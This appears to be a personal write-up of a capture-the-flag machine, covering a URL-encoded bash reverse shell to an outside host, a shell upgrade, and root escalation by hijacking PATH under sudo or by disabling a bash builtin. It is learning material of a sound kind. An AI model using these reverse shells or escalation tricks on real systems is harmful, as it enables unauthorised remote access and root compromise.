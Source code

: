 On returning to this box [Hack-Tools](https://github.com/LasCC/Hack-Tools) got updated! For some reason there is not -c, but there is loads of new features! More reverse shells and shell drop down for defining sh, bash, powershell, cmd! 
```bash
Authorization: Basic cEgwdDA6YjBNYiE=
bash+-c+'exec+bash+-i+>%26+/dev/tcp/10.10.14.122/33300+0>%261'
python3 -c 'import pty;pty.spawn("/bin/bash")'

stty raw -echo;fg
```

Before looking at [the hinted blog](https://systemweakness.com/linux-privilege-escalation-using-path-variable-manipulation-64325ab05469)
- It is a path variable....
```bash
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
OK either we inject a shell that is named `find` into a path or I am incorrect. 
![](roguefindinthepath.png)
Due working out I am incorrect I then read the article...we can just write our own path because we own the pathing...
![](whatamidoingwrong.png)

Rust is showing. OK Ippsec explains:
- Sudo needs a path because sudo need a `PATH=...` 

I really have not done Linux PrivEsc like this in a while...well that decide the next Azure connected box

```bash
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

The colours of this photo are awesome.
![](mark-mc-neill-4xWHIpY2QcY-unsplash_3000x2000.png)

For the additional way describe by [Ippsec](https://www.youtube.com/watch?v=-4asq6Tldf0) was something I wondered as to why it was calling .bashrc that is root owned in /opt/
```bash
# .bashrc weirdness
# disabling a bash builtin may lead to path injection
enable -n $Builtin
# As pathing to the builtin that is a file is then controllable:
export PATH=/dev/shm:$PATH
/dev/shm/[
```

Look into the following as Sinatra and Ruby web apps have never come up in CTFs so I researched:
https://security.snyk.io/package/rubygems/sinatra
https://github.com/sinatra
https://cheatsheetseries.owasp.org/cheatsheets/Ruby_on_Rails_Cheat_Sheet.html

Latter provides some interesting reading:
- Ruby has xss I thought that was just a javascript thing
Also read [0xdf for the complete Ippsec x 0xDF bare minimum](https://0xdf.gitlab.io/2023/02/11/htb-photobomb.html#shell-as-root) which lead to reading the [enable man page](https://linuxcommand.org/lc3_man_pages/enableh.html), which  is nice and short 
